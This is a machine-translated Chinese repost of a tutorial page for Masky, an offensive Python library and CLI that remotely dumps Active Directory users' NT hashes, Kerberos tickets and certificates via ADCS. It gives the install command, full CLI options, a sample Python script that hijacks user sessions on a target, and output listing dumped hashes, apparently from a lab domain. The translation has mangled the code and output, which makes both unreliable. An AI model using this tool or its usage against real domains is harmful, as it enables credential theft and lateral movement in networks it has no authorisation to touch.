 # Masky:带 CLI 的 Python 库，允许通过 ADCS 远程转储域用户凭证

> 原文：<https://kalilinuxtutorials.com/masky/>

[![](img/64f90137c2a94a9a5b7535ad2008215e.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi613ZRJi8M2dKw6VGvbn4P7TjfU9GiDsiM-WGtecg3AWHtJfklXdvAPtTFNGwSKEuQrXRW4zQjaTQNT3bZy6nFOSz-2sxe8uHxso5ar00gSzQADKFw68yYgGxQw_chr_uKIWUSL74Dl5f-NDvOToMN-Wqdp45YXO9UThShzn1m4u8DMZiVQ3rhUl4Y/s728/download.png)

Masky 是一个 python 库，借助 ADCS，它提供了一种远程转储域用户凭证的替代方法。在这个库的基础上构建了一个命令行工具，以便在更大的范围内轻松收集 PFX、NT 散列和 TGT。

该工具不利用任何新的漏洞，并且不通过转储 LSASS 进程内存来工作。事实上，它只利用了合法的 Windows 和 Active Directory 特性(令牌模拟、通过 kerberos 的证书认证和通过 PKINIT 的 NT 哈希检索)。发布了一篇博客文章，详细介绍了实现的技术以及 Masky 的工作原理。

Masky 源代码很大程度上基于令人惊叹的 Certify 和 Certipy 工具。我真的很感谢他们的作者对攻击性开发技术对 ADCS 的研究(见。确认部分)。

## 安装

Masky python3 库及其相关的 CLI 可以通过公共 PyPi 库简单地安装，如下所示:

**pip 安装屏蔽**

PyPi 包中已经包含了 Masky 代理可执行文件。

此外，如果需要修改代理，可以通过位于`**agent/Masky.sln**`中的 Visual Studio 项目重新编译 C#代码。这需要建造`**.NET Framework 4**`。

## 用法

Masky 被设计成一个 Python 库。此外，在它的基础上创建了一个命令行界面，以便在 pentest 或 RedTeam 活动中使用它。

对于这两种用法，您首先需要检索通过 ADCS 部署的`**CA server**`及其`**CA name**`的 FQDN。这些信息可以通过`**certipy find**`选项或微软内置的`c**ertutil.ex**e`工具轻松检索。确保在目标 CA 上启用了默认的`**User**`模板。

警告:Masky 通过修改现有的`RasAuto`服务在每个目标上部署一个可执行文件。尽管自动回滚其初始`**ImagePath**`值，Masky 运行时期间的意外错误可能会跳过清理阶段。因此，不要忘记手动重置原始值，以防意外停机。

### 命令行

下面的演示通过针对 4 个远程系统显示了 Masky 的基本用法。它的执行允许从 sec.lab 测试域中收集 3 个不同域用户的 NT 散列、CCACHE 和 PFX。

Masky 还提供了此类工具通常提供的选项(线程号、身份验证模式、从文件加载的目标等)。).

***_ _*_
| \/|*_**| |*_
| | \/|/*`/_*|//|
| | |(*| _*\<|*|*|*| _*，*|*/*| *| v0.0.3 |* /
用法:Masky[-H][-v][-ts][-t THREADS][-d DOMAIN][-u USER][-p PASSWORD][-k][-H HASHES][-DC-ip IP address]-ca CERTIFICATE _ AUTHORITY[-NH][-nt][-NP][-o OUTPUT]
[Targets…]
位置参数:
Targets CIDR 的目标，接受主机名和 IP 格式，来自 a –时间戳显示每个日志的时间戳
-t 线程，–THREADS THREADS
thread pool size(max 15)
认证:
-d 域，–DOMAIN DOMAIN
域名认证到
-u 用户，–USER 用户名认证到
-p 密码，–PASSWORD PASSWORD
密码认证到
-k，–kerberos 使用 Kerberos 认证。 根据目标参数从 ccache 文件(KRB5CCNAME)中获取凭据。
-H HASHES，–HASHES HASHES
要验证的 HASHES(LM:NT，:NT 或:LM)
连接:
-dc-ip ip 地址域控制器的 ip 地址。如果省略，它将使用目标参数中指定的域部分(FQDN)
-CA CERTIFICATE _ AUTHORITY，–CERTIFICATE-AUTHORITY CERTIFICATE _ AUTHORITY
证书颁发机构名称(SERVER\CA_NAME)
结果:
-nh，–no-hash 不请求 NT 哈希
-nt，–no-ccache 不保存 ccache 文件
-np，–no-pfx 不保存 pfx 文件
-o OUTPUT，–OUTPUT 输出
本地路径***

### Python 库

下面是一个简单的脚本，使用 Masky 库从远程目标收集运行域用户会话的秘密。

**from Masky import Masky
from get pass import get pass
def dump _ nt _ hashes():
定义认证参数
CA = " SRV-01 . sec . lab \ sec-SRV-01-CA "
DC _ IP = " 192 . 168 . 23 . 148 "
domain = " sec . lab "
user = " asky walker "
password = get pass()
用 password=password)
设置一个目标并对其运行 Masky
target = " 192 . 168 . 23 . 130 "
rslts = m . run(target)
检查 Masky 是否成功劫持了至少一个用户会话
或者是否发生了意外错误
如果没有 rslts:
在 MaskyResult 对象上返回 False
循环以显示被劫持的用户并从主机名检索他们的 NT 散列
print(f)结果**

它的执行生成以下输出。

**蟒 3。\masky_demo.py
密码:
结果来自主机名:SRV-01
–sec \ hsolo–05 ff 4 b 2d 523 BC 5 c 21 e 195 e 9851 e 2 b 157
–sec \ asky walker–8928 e 0723012 a 8471 c 0084149 C4 e 23 b 1
–sec \ administrator–4 f1 c6b 554 bb 79 e 2e ce 91 e 012 ffbe 6988 a【T6**

Masky 成功执行后，返回一个包含一系列`**User**`对象的`**MaskyResults**`对象。

请看`**masky\lib\results.py**`模块，检查这两个类提供的方法和属性。

[Download](https://github.com/Z4kSec/Masky)